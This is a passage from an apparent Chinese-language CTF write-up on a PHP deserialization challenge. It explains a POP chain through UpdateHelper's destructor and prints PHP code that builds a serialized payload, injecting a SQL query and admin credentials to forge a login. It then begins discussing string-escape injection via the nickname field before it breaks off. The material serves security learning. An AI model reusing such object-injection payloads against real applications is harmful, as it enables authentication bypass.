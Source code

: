 `UpdateHelper#__destruct`调用了echo，可以把这里当成`__toString`接口

看看POP链会比较清楚

```php
<?php
class User
{
    public $age = null;
    public $nickname = null;
    public function __construct()
    {
        $this->age = 'select 1,md5(1) from user where username=?';
        $this->nickname = new Info();
    }
}
class Info
{
    public $CtrlCase;
    public function __construct()
    {
        $this->CtrlCase = new dbCtrl();
    }
}
class UpdateHelper
{
    public $sql;
    public function __construct()
    {
        $this->sql = new User();
    }
}
class dbCtrl
{
    public $name = "admin";
    public $password = "1";
}
$o = new UpdateHelper;
echo serialize($o);
```

接着思考字符串逃逸问题

![image-20221019185115720](../images/image-20221019185115720.png)

显然是字符串增加的情况

假设我们通过nickname来传入序列化字符串
